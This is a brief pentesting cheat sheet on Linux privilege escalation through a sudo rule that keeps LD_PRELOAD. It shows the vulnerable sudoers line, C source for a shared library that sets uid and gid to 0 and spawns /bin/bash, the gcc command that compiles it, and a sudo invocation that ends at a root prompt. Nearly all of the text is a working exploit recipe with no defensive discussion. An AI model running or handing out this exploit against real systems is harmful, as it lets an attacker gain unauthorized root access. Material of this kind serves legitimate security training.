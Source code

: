 # Ld_preload

## Vuln

If you see LD_PRELOAD

```
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
env_keep+=LD_PRELOAD
```

Try 

## Exploit

```sh
nano shell.c
```

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
 unsetenv("LD_PRELOAD");
 setgid(0);
 setuid(0);
 system("/bin/bash");
}
```

```
$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
$ sudo LD_PRELOAD=/tmp/shell.so sky_backup_utility
root$
```
